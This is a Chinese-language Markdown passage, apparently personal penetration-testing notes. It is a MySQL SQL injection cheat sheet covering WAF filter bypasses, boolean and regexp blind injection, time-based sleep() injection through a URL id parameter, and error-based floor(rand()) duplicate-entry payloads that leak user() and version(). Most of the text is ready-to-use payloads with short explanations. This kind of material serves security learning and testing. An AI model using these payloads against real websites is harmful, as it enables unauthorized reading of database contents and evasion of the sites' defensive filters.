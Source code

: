 - 猥琐流：
  1. 使用例子：select * from users where id=1;
  2. from出现就会代替掉，输入一个单引号会转义（[https://www.t00ls.net/thread-36704-1-1.html](https://www.t00ls.net/thread-36704-1-1.html)）：
     - select * from. users where id=1;
  3. 空格被过滤（[http://www.lijiejie.com/mysql-injection-bypass-waf-2](http://www.lijiejie.com/mysql-injection-bypass-waf-2/)）：
     - 使用括号()代替空格，任何可以计算出结果的语句，都可以用括号包围起来；
     - select * from(users)where id=1;
     - 使用注释`/**/`绕过空格；
     - select * from/\*\*/users/\*\*/where id=1;
  4. 报错注入中过滤','逗号，利用exp报错来注入；（[http://www.lijiejie.com/mysql-injection-bypass-waf-3](http://www.lijiejie.com/mysql-injection-bypass-waf-3/)）；
     - select !(select \* from(select user())x)-~0; 
     - updateXML，duplicate entry报错注入，都需要使用到逗号；
  5. 不能使用大小于'<>'符号，利用greatest()函数绕过；greatest(x,y)，返回x和y中较大的那个数；
     - select greatest(ascii(mid(user(),1,1)),150)=150;
     - 如果小于150，则返回值为1，即True。
  6. 基于时间的盲注、延时注入（没逗号，没空格，没大小写符号），利用mid()||substr()函数特性来实现：
     - http://www.xxx.com/index.php?id=(sleep(ascii(mid(user()from(2)for(1)))=109))
     - 这条语句是猜解user()第二个字符的ascii码是不是111(o)，若是111，则页面加载将延迟。好处：1) 既没有用到逗号、大小于符号；2) 也没有使用空格；却可以完成数据的猜解工作！

### SQL 盲注

#### 基于布尔 SQL 盲注，即构造逻辑判断（真为1，假为0）

- 截取字符串常用函数：
  1. mid()，MID(string,start,length)
  2. substr()，SUBSTR(string, start, length)
  3. left()，LEFT(string,n)
  4. ORD()，返回字符的ASCII码（。。）
  5. ascii()，同ord()函数（。。）
  6. p.s. mid()&&substr()函数都有`from x for y`方法，即mid(user() from 1 for 1)或substr(user() from 1 for 1)；表示从第x位数据开始取，取y个数据；

- regexp 正则注入：
  1. regexp '^[a-z]' ，判断第一个字母是小写字母；regexp '^r[a-z]' ，判断第二个字母是否是小写字母；
  2. 在limit 0,1下，regexp会匹配所有的项；
  3. '^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' -> '^user[a-z]' -> FALSE
  4. 如何知道匹配结束了？table_name regexp '^username$'，^是从开头进行匹配，$是从结尾开始判断
- like 匹配注入：
  1. select user() like 'ro%';   前两位如果是ro，则返回 1；

#### 基于报错的 SQL 盲注，构造 payload 让信息通过错误提示回显出来

- 常规手法（无版本要求）
  - 参考资料：[http://www.lijiejie.com/mysql-injection-error-based-duplicate-entry](http://www.lijiejie.com/mysql-injection-error-based-duplicate-entry/)
  - MySQL RAND()函数调用可以在0和1之间产生一个随机数；
  - floor()函数取浮点数的整数部分；
  - Duplicate entry ???报错的类型；
  - group by x进行分组；
  - 0x3a,0x3a,xxx,0x3a,0x3a只是为了美观，便于取数据；
  - 原理：为分组后数据计数时重复造成的错误；
    - select 1,count(\*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a;
    - 以上语句可以简化成如下的形式:
    - select 1,2,count(\*) from information_schema.tables group by concat(0x3a,0x3a,version(),0x3a,0x3a,floor(rand(0)*2));
    - 如果 rand() 被禁用了可以使用用户变量来报错:
    - select min(@a:=1) from information_schema.tables group by concat(0x3a,0x3a,version(),0x3a,0x3a,@a:=(@a+1)%2);
    - 其实这是mysql的一个bug所引起的，其他数据库都不会因为这个问题而报错。
    - 注：第一、二句payload都是三个字段，具体多少字段还是需要看union前面的select的字段数，∵union前后语句得出的字段数一定要相等，以后的union问题同样；

